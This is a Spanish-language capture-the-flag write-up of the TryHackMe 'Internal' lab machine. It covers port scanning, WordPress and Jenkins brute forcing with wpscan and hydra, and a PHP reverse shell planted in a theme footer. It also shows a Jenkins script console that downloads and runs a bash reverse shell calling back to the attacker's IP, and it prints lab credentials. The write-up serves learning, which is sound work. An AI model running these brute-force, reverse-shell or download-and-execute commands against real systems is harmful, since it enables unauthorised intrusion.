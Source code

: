 # Internal

```bash
sudo nmap -sS -p- --min-rate 4000 -Pn -n --open -vvv 10.10.144.21 -oG allports
nmap -sC -sV -p 22,80 -n -Pn 10.10.144.21 -oN targeted
```

![0411010129](0411010129.png)

## 80

Tiene en el inicio una página basica de apache, así que usaremos wfuzz pero primero modficaremos el archivo /etc/hosts para incluir la ip de la maquina y poner de nombre de dominio internal.thm

```bash
wfuzz -c --hc 404, 403 -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://internal.thm/FUZZ
```

![0411020233](0411020233.png)

## Wordpress 

Analizamos wordpress usando wpscan para analizar posibles usuarios

```bash
wpscan --url http://internal.thm/blog -e u
```

![0411020244](0411020244.png)

Nos encontramos con el usuario **"admin"**

wpscan también nos permite hacer ataques de fuerza bruta para identificar la contraseña, estaremos usando el diccionario de rockyou.txt

```bash
wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt
```

![0411020213](0411020213.png)

`admin:my2boys`

Entramos y nos vamos  a la zona de _"Apparence->theme editor"_ para poder modificar algun archivo php en donde colocaremos una reverse shell y para eso modificaremos el theme footer le agregamos una shell como por ejemplo la que tenemos en **/usr/share/laudanum/wordpress/templates/php-reverse-shell.php**, esto se le puede agregar al final del footer y dentro del body.

Para activarlo bastará con cargar la página pues siempre esta el footer ahí mismo. 

## Pasamos a una full tty

![0411020234](0411020234.png)

```bash
script /dev/null -c bash
# ctrl + z
stty -a # anotar filas y columnas
stty raw -echo
fg # esto no se mostrará en la terminal pero si podrás escribir
reset
# si te preguntan que terminal usas responde xterm
export TERM=xterm
export SHELL=bash
stty rows 35 columns 106 # La cantidad que te haya salido con stty -a
```

# Enumeracion de la maquina

Buscamos primero que usarios tiene, eso se puede hacer con `cat /etc/passwd` y verificando que carpetas existen en `/home/`

En ambos casos encontramos el usuario aubreanna. Continuando enumerando varias cosas se encuentra un archivo en /opt con un mensaje indicandonos la contraseña aubreanna.

![0411030317](0411030317.png)

**aubreanna:bubb13guM!@#123**

Se encontró un archivo jenkins.txt que nos dice que internamente esta corriente este servicio en el puerto 8080.

![0411030359](0411030359.png)

Ahora hacemos un localport forwarding para traer el servicio de manera local en la computadora del atacante

```bash
sudo ssh -L 8080:localhost:8080 aubreanna@internal.thm
```

Atacaremos con fuerza bruta el login de jenkins

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 64 -s 8080 -V localhost http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
```

![0411040404](0411040404.png)

Ya que sabemos las credenciales nos logeamos y entramos a http://localhost:8080/computer/(master)/script para poder correr scripts en bash.

Primero creamos un archivo shell.sh en nuestra maquina con lo siguiente

```bash
bash -i >& /dev/tcp/10.13.13.243/5555 0>&1
```

y en la página colocamos estas lineas para descargar y ejecutar luego el archivo descargado, que para eso deberemos iniciar un servicio http con `sudo python -m http.server 80`

```java
println "wget http://10.13.13.243/shell.sh -O /tmp/shell.sh".execute().text
println "bash /tmp/shell.sh".execute().text
```

![0411040452](0411040452.png)

Entramos a opt donde encontramos una nota con la contraseña de root

![0411040421](0411040421.png)

Ahora solo falta cambiarnos del usuario de aubreanna a root, recuerda no cambiar en el docker que esa es como otra maquina